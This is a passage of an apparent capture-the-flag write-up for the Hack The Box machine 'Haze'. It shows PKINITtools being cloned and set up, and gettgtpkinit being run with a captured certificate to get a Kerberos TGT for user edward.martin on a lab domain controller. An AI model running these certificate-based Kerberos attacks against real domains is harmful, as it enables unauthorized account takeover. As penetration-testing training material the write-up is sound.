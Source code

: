 ```
        haze.htb = HAZE.HTB
```

The https://github.com/dirkjanm/PKINITtools repo was then cloned.
```
fcoomans@kali:~/htb/haze$ git clone https://github.com/dirkjanm/PKINITtools.git
Cloning into 'PKINITtools'...
remote: Enumerating objects: 45, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 45 (delta 14), reused 10 (delta 10), pack-reused 27 (from 1)
Receiving objects: 100% (45/45), 28.08 KiB | 4.68 MiB/s, done.
Resolving deltas: 100% (21/21), done.
```

Another Python virtual environment named `venv_pkinit` is created for `PKINITtools`.  After activating the virtual environment, `pip` is used to install the requirements.
```
fcoomans@kali:~/htb/haze$ cd PKINITtools

fcoomans@kali:~/htb/haze/PKINITtools$ python -m venv venv_pkinit

fcoomans@kali:~/htb/haze/PKINITtools$ . ./venv_pkinit/bin/activate

(venv_pkinit)fcoomans@kali:~/htb/haze/PKINITtools$ pip install -r requirements.txt
Collecting impacket (from -r requirements.txt (line 1))
  Using cached impacket-0.12.0-py3-none-any.whl
Collecting minikerberos (from -r requirements.txt (line 2))
  Using cached minikerberos-0.4.6-py3-none-any.whl.metadata (734 bytes)
<SNIP>
```

`ntpdate` was run again to sync the time with the server, to prevent the clock skew issue.
```
(venv_pkinit)fcoomans@kali:~/htb/haze/PKINITtools$ sudo ntpdate dc01.haze.htb
2025-06-28 20:32:03.381859 (+0200) +1084.166063 +/- 0.077891 dc01.haze.htb 10.10.11.61 s1 no-leap
CLOCK: time stepped by 1084.166063
```

`gettgtpkinit` requested a TGT for Edward using the certificate.
```
(venv_pkinit)fcoomans@kali:~/htb/haze/PKINITtools$ cd ..

(venv_pkinit)fcoomans@kali:~/htb/haze$ python PKINITtools/gettgtpkinit.py -cert-pfx edward.pfx -pfx-pass Password123! -dc-ip 10.10.11.61 "haze.htb/edward.martin" emartin.ccache
2025-06-28 20:33:36,748 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-28 20:33:36,797 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-28 20:33:48,242 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-28 20:33:48,242 minikerberos INFO     d94ab1745df9c36f664182dc7cbd170d6c59e96b00a3a0c2446fff96bb364a02
INFO:minikerberos:d94ab1745df9c36f664182dc7cbd170d6c59e96b00a3a0c2446fff96bb364a02
2025-06-28 20:33:48,253 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
